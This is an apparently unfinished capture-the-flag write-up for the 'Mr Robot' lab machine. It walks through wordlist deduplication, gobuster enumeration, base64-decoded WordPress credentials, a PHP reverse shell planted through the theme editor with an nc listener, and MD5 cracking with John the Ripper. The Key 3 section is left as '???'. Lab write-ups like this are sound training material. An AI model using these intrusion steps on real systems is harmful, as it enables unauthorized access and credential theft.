




# Mr Robot

## Key 1

Visit `/robots.txt`:

```txt
User-agent: *
fsocity.dic
key-1-of-3.txt
```

`/key-1-of-3.txt` -> Got 1st key!

## Key 2

> Hint: There's something fishy about this wordlist... Why is it so long?

Download the wordlist, remove duplicates and run gobuster:

```shell
wget http://10.10.86.225/fsocity.dic
```

```python
wordlist_file = "fsocity.dic"
output_file = "tmp.txt"

with open(wordlist_file, 'r') as f:
    unique_words = {line.strip() for line in f}

with open(output_file, 'w') as f:
    for word in unique_words:
        f.write(word + '\n')
```

```shell
gobuster dir -u http://10.10.86.225/ -w ctfs/tmp.txt
```



At `/license`, we find a base64-encoded string

```shell
echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
> elliot:ER28-0652
```

`/login` directs us to a Wordpress login page



Entering the Username: elliot and Password: ER28-0652 logs us in!

We can host a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) using theme editor:


Set up a listening server and visit the page (http://10.10.86.225/wp-includes/themes/TwentyFifteen/404.php)

```shell
nc -lvnp 7777
```



`password.raw-md5` gives us a md5 hashed password, which can be decoded by John the Ripper

```shell
john --format=raw-md5 --wordlist=rockyou.txt password.raw-md5
```



## Key 3

???
